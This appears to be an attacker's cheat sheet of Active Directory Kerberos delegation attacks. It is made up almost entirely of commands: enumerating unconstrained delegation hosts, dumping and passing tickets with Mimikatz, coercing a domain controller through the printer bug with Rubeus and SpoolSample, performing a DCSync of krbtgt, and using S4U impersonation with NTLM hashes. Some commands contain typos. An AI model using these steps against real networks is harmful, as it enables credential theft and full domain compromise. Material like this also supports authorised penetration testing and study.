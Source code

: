 ### Unconstrained Delegation

Enumerate

```
Get-DomainComputer -Unconstrained
```

#### Mimikatz Exploitation

```
privilege::debug

# list
sekurlsa::tickets

# dump
seurlsa::tickets /export

# pass the ticket
kerberos::ptt <ticket>.kirbi
```

#### Printer Bug

```
# enumerate
ls \\dc01\pipe\spoolss

# rubeus in monitor mode
.\Rubeus.exe monitor /interval:5 /filteruser:CDC01$

#Launch print spooler
.\SpoolSample.exe CDC01 APPSRV01

# Pass the ticket
.\Rubeus.exe ptt /ticket:doIFIj

# dcsync
mimikatz # lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
```

### Constrained Delegation

```
# generate TGT
.\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E

# impersonsate
.\Rubeus.exe s4u /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt /ticket:[...]

# OR impersonate using ntlm
.\Rubeus s4u /user:web01$ /rc4:75ba1a138dc1f86cf18b69968f801021 /impersonateuser:administrator /msdsspn:cifs/file01 /ptt

# impersonate and modify service
.\Rubeus.exe s4u /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt /ticket:[...] /altservice:cifs

# impacket impersonate 
getST.py -dc-ip 10.9.0.1 -spn 'cifs/dc.vault.local' -impersonate 'administrat' 'vault.local/attackersystem$:Summer2018!'
```
